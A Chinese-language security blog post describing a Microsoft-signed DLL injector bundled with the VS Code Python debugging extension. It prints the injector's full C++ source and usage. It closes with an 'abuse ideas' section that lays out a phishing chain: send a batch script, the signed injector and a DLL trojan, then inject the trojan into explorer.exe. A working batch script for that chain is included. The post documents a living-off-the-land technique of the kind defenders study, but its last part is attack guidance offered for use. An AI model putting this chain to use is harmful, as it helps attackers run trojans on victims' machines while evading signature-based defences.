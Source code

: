 ```yaml
---
title: "VsCode扩展中的DLL注入器"
date: 2023-09-08
description: 早上 @Akkuman 说看到Vsocde中的扩展目录中有疑似签名过的DLL注入器，遂记录一下。
url: /archivers/2023-09-08/vscode-dll
tags: vscode
---
```


<aside>
💡 VSCode是一款由微软开发的免费且开源的代码编辑器，支持多种编程语言，可通过安装扩展包来进一步扩展其功能。VSCode的扩展包具有丰富的功能，包括但不限于代码片段、自动完成、调试工具、主题等。用户可以轻松地在VSCode中安装、管理和使用扩展包，以满足个人的编程需求。

</aside>

安装完毕Python调试扩展后，会在扩展目录中生成一些文件：

![0](https://images.payloads.online/2024-07-29-1ac07f2ccf6b6ba8768b96e62815f150289ca24887a111685646538b567130d5.png)  


![1](https://images.payloads.online/2024-07-29-8ba004d0a43efcfa27809998a10469e46d3e380ea3ed0c3122c60583d5a0ee6b.png)  

其中以下两个文件是DLL注入器，分别对应X86和X64位操作系统：

- inject_dll_x86.exe
- inject_dll_amd64.exe

在windows文件夹中还保留了注入器的源代码：

![2](https://images.payloads.online/2024-07-29-03d06e145c8996fcbaafefa67c5c28df4b4f53a9f77b69a21cfefebd0fea9d28.png)  


> 路径：`C:\Users\Administrator\.vscode\extensions\ms-python.python-2022.20.2\pythonFiles\lib\python\debugpy\_vendored\pydevd\pydevd_attach_to_process\windows`
> 

```cpp
// inject_dll.cpp
#include <iostream>
#include <windows.h>
#include <stdio.h>
#include <conio.h>
#include <tchar.h>
#include <tlhelp32.h>

#pragma comment(lib, "kernel32.lib")
#pragma comment(lib, "user32.lib")

// Helper to free data when we leave the scope.
class DataToFree {
public:
    HANDLE hProcess;
    HANDLE snapshotHandle;
    
    LPVOID remoteMemoryAddr;
    int remoteMemorySize;
    
    DataToFree(){
        this->hProcess = nullptr;
        this->snapshotHandle = nullptr;
        
        this->remoteMemoryAddr = nullptr;
        this->remoteMemorySize = 0;
    }
    
    ~DataToFree() {
        if(this->hProcess != nullptr){
            
            if(this->remoteMemoryAddr != nullptr && this->remoteMemorySize != 0){
                VirtualFreeEx(this->hProcess, this->remoteMemoryAddr, this->remoteMemorySize, MEM_RELEASE);
                this->remoteMemoryAddr = nullptr;
                this->remoteMemorySize = 0;
            }
            
            CloseHandle(this->hProcess);
            this->hProcess = nullptr;
        }

        if(this->snapshotHandle != nullptr){
            CloseHandle(this->snapshotHandle);
            this->snapshotHandle = nullptr;
        }
    }
};

/**
 * All we do here is load a dll in a remote program (in a remote thread).
 *
 * Arguments must be the pid and the dll name to run.
 *
 * i.e.: inject_dll.exe <pid> <dll path>
 */
int wmain( int argc, wchar_t *argv[ ], wchar_t *envp[ ] )
{
    std::cout << "Running executable to inject dll." << std::endl;
    
    // Helper to clear resources.
    DataToFree dataToFree;
    
    if(argc != 3){
        std::cout << "Expected 2 arguments (pid, dll name)." << std::endl;
        return 1;
    }
 
    const int pid = _wtoi(argv[1]);
    if(pid == 0){
        std::cout << "Invalid pid." << std::endl;
        return 2;
    }
    
    const int MAX_PATH_SIZE_PADDED = MAX_PATH + 1;
    char dllPath[MAX_PATH_SIZE_PADDED];
    memset(&dllPath[0], '\0', MAX_PATH_SIZE_PADDED);
    size_t pathLen = 0;
    wcstombs_s(&pathLen, dllPath, argv[2], MAX_PATH);
    
    const bool inheritable = false;
    const HANDLE hProcess = OpenProcess(PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD | PROCESS_VM_READ | PROCESS_VM_WRITE | PROCESS_QUERY_INFORMATION, inheritable, pid);
    if(hProcess == nullptr || hProcess == INVALID_HANDLE_VALUE){
        std::cout << "Unable to open process with pid: " << pid << ". Error code: " << GetLastError() << "." << std::endl;
        return 3;
    }
    dataToFree.hProcess = hProcess;
    std::cout << "OpenProcess with pid: " << pid << std::endl;
    
    const LPVOID remoteMemoryAddr = VirtualAllocEx(hProcess, nullptr, MAX_PATH_SIZE_PADDED, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if(remoteMemoryAddr == nullptr){
        std::cout << "Error. Unable to allocate memory in pid: " << pid << ". Error code: " << GetLastError() << "." << std::endl;
        return 4;
    }
    dataToFree.remoteMemorySize = MAX_PATH_SIZE_PADDED;
    dataToFree.remoteMemoryAddr = remoteMemoryAddr;
    
    std::cout << "VirtualAllocEx in pid: " << pid << std::endl;
    
    const bool written = WriteProcessMemory(hProcess, remoteMemoryAddr, dllPath, pathLen, nullptr);
    if(!written){
        std::cout << "Error. Unable to write to memory in pid: " << pid << ". Error code: " << GetLastError() << "." << std::endl;
        return 5;
    }
    std::cout << "WriteProcessMemory in pid: " << pid << std::endl;
    
    const LPVOID loadLibraryAddress = (LPVOID) GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if(loadLibraryAddress == nullptr){
        std::cout << "Error. Unable to get LoadLibraryA address. Error code: " << GetLastError() << "." << std::endl;
        return 6;
    }
    std::cout << "loadLibraryAddress: " << pid << std::endl;
    
    const HANDLE remoteThread = CreateRemoteThread(hProcess, nullptr, 0, (LPTHREAD_START_ROUTINE) loadLibraryAddress, remoteMemoryAddr, 0, nullptr);
    if (remoteThread == nullptr) {
        std::cout << "Error. Unable to CreateRemoteThread. Error code: " << GetLastError() << "." << std::endl;
        return 7;
    }
    
    // We wait for the load to finish before proceeding to get the function to actually do the attach.
    std::cout << "Waiting for LoadLibraryA to complete." << std::endl;
    DWORD result = WaitForSingleObject(remoteThread, 5 * 1000);
    
    if(result == WAIT_TIMEOUT) {
        std::cout << "WaitForSingleObject(LoadLibraryA thread) timed out." << std::endl;
        return 8;
        
    } else if(result == WAIT_FAILED) {
        std::cout << "WaitForSingleObject(LoadLibraryA thread) failed. Error code: " << GetLastError() << "." << std::endl;
        return 9;
    }
    
    std::cout << "Ok, finished dll injection." << std::endl;
    return 0;
}
```

签名情况：

![3](https://images.payloads.online/2024-07-29-86bbb43d1859d52ea12e73cc03a6b184a25e4f0239431b109b35aa49de3c27d9.png)  

使用方式，只需要两个参数：

- pid : 目标进程的进程ID
- dll name: 想要注入目标进程的DLL绝对路径

```cpp
C:\Users\Administrator\Downloads>inject_dll_amd64.exe
Running executable to inject dll.
Expected 2 arguments (pid, dll name).
```

测试效果：

![4](https://images.payloads.online/2024-07-29-d239af6fc3a3e340f245ce3f15dd9d50a35f4d1b876b14760207326feea194f0.png)  


滥用思路：

1. 钓鱼的时候可以发送一个BAT批处理脚本、dll注入器、dll木马
2. BAT批处理：获取x64进程的pid
3. BAT批处理：获取dll木马绝对路径
4. BAT批处理：执行dll注入器，将dll木马注入到目标进程中

![5](https://images.payloads.online/2024-07-29-6427dc8baed64cec09ed7934e49ef9188954f50c44761035110c9f7f93562fdd.png)  

```bash
@echo off
set target_process_name=explorer.exe
set dll_name=calc_x64.dll
set injecter=inject_dll_amd64.exe
for /f "tokens=2" %%i in ('tasklist ^| findstr /i "%target_process_name%"') do set "pid=%%i"
set "command=%CD%\%injecter% %pid% %CD%\%dll_name%"
%command%
```

最后的最后，致谢 @Akkuman